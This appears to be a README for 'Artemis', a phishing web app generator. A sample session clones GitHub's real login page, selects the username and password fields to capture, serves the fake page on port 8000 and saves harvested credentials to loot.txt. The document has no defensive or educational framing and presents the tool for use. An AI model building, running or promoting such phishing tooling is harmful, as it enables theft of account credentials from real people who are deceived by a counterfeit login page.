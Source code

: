 # Artemis
Phishing webapp generator

## Getting started

```
$ pip install -r requirements.txt

$ ./builder.py 'https://github.com/login'
[*] Found forms:
FORM 0 --> /session
Form to log: 0
Selected form 0

[*] Form fields:
0 - utf8
1 - authenticity_token
2 - login
3 - password
4 - commit
Fields to log (comma separated, e.g 1,4,5): 2,3
Logging: ['login', 'password']

[*] Phishing page ready !
Run now ? (y/n)y
* Running on http://0.0.0.0:8000/ (Press CTRL+C to quit)

```

Gathered credentials are stored in loot.txt.

debug command: 
python2 -m pdb ./builder.py 'https://github.com/login'